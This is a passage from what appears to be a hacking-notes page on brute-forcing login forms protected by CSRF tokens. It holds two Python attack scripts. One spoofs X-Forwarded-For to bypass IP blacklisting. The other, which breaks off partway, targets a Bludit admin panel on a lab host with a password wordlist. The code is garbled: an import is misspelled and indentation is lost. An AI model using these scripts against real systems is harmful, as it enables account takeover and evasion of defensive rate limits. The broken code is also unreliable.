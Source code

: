 ```html
room: username
})

});
</script>
```
## CSRF Login Brute Force

The code can be used to Brut Force a login form using a CSRF token (It's also using the header X-Forwarded-For to try to bypass a possible IP blacklisting):

```python
import requests
from bs4 import BeautifulSoup

url = "https://example.com/login"
login_data = {"username": "admin", "password": "password"}

# Get the CSRF token
response = requests.get(url)
soup = BeautifulSoup(response.text, "html.parser")
csrf_token = soup.find("input", {"name": "csrf_token"}).get("value")

# Set the CSRF token in the login data
login_data["csrf_token"] = csrf_token

# Send the login request
response = requests.post(url, data=login_data, headers={"X-Forwarded-For": "127.0.0.1"})

# Check if the login was successful
if "Welcome, admin!" in response.text:
    print("Login successful")
else:
    print("Login failed")
```

The code sends a GET request to the login page to retrieve the CSRF token. It then sets the CSRF token in the login data and sends a POST request to the login page with the login data. The X-Forwarded-For header is used to spoof the source IP address and bypass IP blacklisting. Finally, the code checks if the login was successful by searching for a specific string in the response.
```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
#Return CSRF + Session (cookie)
r = requests.get(URL)
csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
csrf = csrf.group(1)
session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
return csrf, session_cookie

def login(user, password):
print(f"{user}:{password}")
csrf, cookie = init_session()
cookies = {SESSION_COOKIE_NAME: cookie}
```